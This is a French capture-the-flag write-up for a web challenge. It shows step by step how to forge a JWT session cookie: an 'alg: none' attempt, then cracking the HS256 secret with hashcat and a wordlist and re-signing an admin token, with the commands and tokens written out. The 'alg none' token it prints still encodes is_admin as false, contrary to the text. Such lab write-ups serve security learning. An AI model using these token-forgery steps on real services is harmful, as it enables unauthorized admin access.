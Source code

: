 # Web - KoroDesign
![énoncé](images/korodesign.png)  
On se rend à l'URL indiqué.  
![index](images/korodesign_index.jpg)  
On check le code source... rien d'intéressant.  
On regarde s'il n'y a pas de "robots.txt" ou "sitemap.xml"... Ni l'un ni l'autre.  
On clique sur "A propos".  
```
Hello, Gros merci a Koro pour son design et merci a vous pour la participation :)
Vu que vous êtes sympa on vous a créé un compte guest/guest sur l'appli ... ;)
Peace ! Unknown101
```
On apprend donc qu'un compte guest/guest existe.  
On retourne à l'accueil et on va sur "login".  
Rien dans le code source. On teste guest/guest. Et on est redirigé vers "/flag.php".  
![flag.php](images/korodesign_flag_php.jpg)  
Toujours rien dans le code source.  
On regarde les cookies : `F12 > Stockage`  
Il y a un cookie nommé `custom` et qui a pour valeur : `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaXNfYWRtaW4iOiJmYWxzZSJ9.th6ARHDhsvWtOqW38esNe269u2NJlm_CE3t9nXZLHrY`  
On reconnait içi un JWT (JSON Web Token) par sa forme : [data].[data].[data]  
On se renseigne sur le JWT. La page [Wikipédia anglaise](https://en.wikipedia.org/wiki/JSON_Web_Token) nous explique ce qu'est ce token et de quoi il est composé.  
![structure JWT](images/korodesign_wiki_jwt.png)  
On récupère notre token puis on le décode.
```
$ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
{"typ":"JWT","alg":"HS256"}
$ echo "eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaXNfYWRtaW4iOiJmYWxzZSJ9" | base64 -d
{"username":"guest","is_admin":"false"}
$ $ echo "th6ARHDhsvWtOqW38esNe269u2NJlm_CE3t9nXZLHrY" | base64 -d
{n��cI�base64: entrée incorrecte
```
La dernière partie, illisible, s'agit de la signature.  
On apprend que notre token est signé avec l'algorithme HS256 et contient un champs qui pourrait nous intéresser : "is_admin":"false"  
On se renseigne sur les différentes attaques possibles avec un JWT : [](https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/)  
On peut donc : 
* mettre la valeur du champs "alg" à "none"
* changer l'algorithme de RS256 à HS256 (içi, nous sommes déjà en HS256, l'attaque n'est donc pas réalisable)
* cracker la clé utilisée pour générer la signature
## Mettre la valeur du champs "alg" à "none"
On essaie la 1ère technique (on pense bien sûr à changer la valeur de "is_admin"): 
```
$ echo '{"typ":"JWT","alg":"none"}' | base64 > crafted
$ echo "." >> crafted
$ echo '{"username":"guest","is_admin":"true"}' | base64 >> crafted
$ echo "." >> crafted
```
On enlève les retours à la ligne avec un éditeur de texte ainsi que les "=" afin d'avoir un token correct car le JWT doit être base64url encodé.  
On a donc : `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0K.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaXNfYWRtaW4iOiJmYWxzZSJ9Cg.`  
On retourne sur notre navigateur. On change la valeur de "custom" par le token que l'on vient de créer.  
On recharge la page... et on se prend un "500 Internal Server Error". L'attaque n'a pas marchée.
## Cracker la clé utilisée pour générer la signature
On a vu tout à l'heure que l'on pouvait également cracker la clé utilisée pour générer la signature afin de pouvoir signer nos tokens de la même manière que le serveur le fait !  
On utilise alors hashcat :
```
$ hashcat -a0 -m 16500 jwt /usr/share/worldlists/rockyou.txt
[...] peu de temps après, on a la clé
!passw0rd
```
La clé utilisée pour signer les tokens est donc "!passw0rd".  
A présent, on peut se rendre sur [CyberChef](https://gchq.github.io/CyberChef/) afin de nous simplifier la tâche. 
On ajoute JWT Sign, puis on change l'algorithme pour "HS256", on remplit le champs Private/Secret Key par "!passw0rd" et en input on met le payload de notre JWT soit `{"username":"guest","is_admin":"true"}`.  
On copie le token que CyberChef nous a gentillement construit : `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaXNfYWRtaW4iOiJ0cnVlIiwiaWF0IjoxNTg0MjM2OTI1fQ.2l-phLQqXNuGIpIxVN4vbY9NNMs8csBE1LN4uD1s630`  
On retourne sur la page de notre challenge et on modifie le cookie "custom" par notre nouveau token. On recharge la page.  
![flag](images/korodesign_flag.jpg)  
  
**FLAG : BC{Thanks_K0r0_for_css}**